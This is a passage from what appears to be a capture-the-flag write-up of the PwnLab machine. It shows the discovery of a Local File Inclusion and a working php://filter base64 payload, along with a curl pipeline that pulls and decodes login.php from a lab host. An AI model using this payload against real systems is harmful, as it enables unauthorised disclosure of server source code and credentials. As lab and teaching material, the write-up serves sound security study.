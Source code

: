 After to enumerate for some time I was able to detect a Local File Inclusion, using wrappers it was possible to read the PHP files, since when including the files of the system of conventional form didn't obtain results.

```bash
http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=login
```

![](/assets/images/pwnlab/screenshot-2.png)

## Exploitation
### Local File Inclusion

With curl I downloaded the content of the login.php file, we can see that the login form uses prepared queries, reason why SQL Injection wasn't possible.

```bash
root@kali:~$ curl -s "http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=login" | sed -n '10p' | grep -oP 'PD[^<]*' | base64 -d | tee login.php
<?php
session_start();
require("config.php");
$mysqli = new mysqli($server, $username, $password, $database);

if (isset($_POST['user']) and isset($_POST['pass']))
{
        $luser = $_POST['user'];
        $lpass = base64_encode($_POST['pass']);

        $stmt = $mysqli->prepare("SELECT * FROM users WHERE user=? AND pass=?");
        $stmt->bind_param('ss', $luser, $lpass);

        $stmt->execute();
        $stmt->store_Result();

        if ($stmt->num_rows == 1)
        {
                $_SESSION['user'] = $luser;
                header('Location: ?page=upload');
        }
        else
        {
                echo "Login failed.";
        }
}
else
{
        ?>
        <form action="" method="POST">
        <label>Username: </label><input id="user" type="test" name="user"><br />
        <label>Password: </label><input id="pass" type="password" name="pass"><br />
        <input type="submit" name="submit" value="Login">
        </form>
        <?php
```